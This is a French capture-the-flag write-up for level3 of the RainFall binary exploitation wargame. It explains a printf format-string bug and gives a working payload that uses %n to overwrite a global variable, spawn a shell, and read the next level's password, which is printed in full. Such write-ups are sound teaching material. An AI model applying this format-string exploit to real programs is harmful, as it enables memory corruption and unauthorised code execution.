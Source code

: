 Le programme utilise fgets, il est impossible de provoquer un buffer overflow, mais nous pouvons utiliser une format string attack avec printf. Une attaque par chaîne de format avec printf en C exploite des vulnérabilités où l'entrée utilisateur est utilisée par erreur comme paramètre de la chaîne de format, permettant à un attaquant de lire ou d'écrire en mémoire. Pour le tester, nous pouvons essayer d'ajouter %p à notre entrée. Nous avons également remarqué qu'une variable `m` a été déclarée, `m` est copiée dans `eax` puis comparée pour entrer dans la condition.

```
0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
```

```
Starting program: /home/user/level3/level3 
AAAA %p %p %p %p %p %p %p 
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070
```

Nous pouvons voir nos 4 A à la quatrième position, ce qui signifie que la variable `m` peut être écrasée 64 - 4 = 60 octets plus loin.

Pour écraser eax, passer la condition et exécuter system("/bin/sh"), nous devons spécifier l'adresse de `m`, puis ajouter les 60 octets et enfin utiliser `%n` pour écrire 4 octets à l'adresse de `m`.

```(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; cat) | ./level3```

```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; cat) | ./level3 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
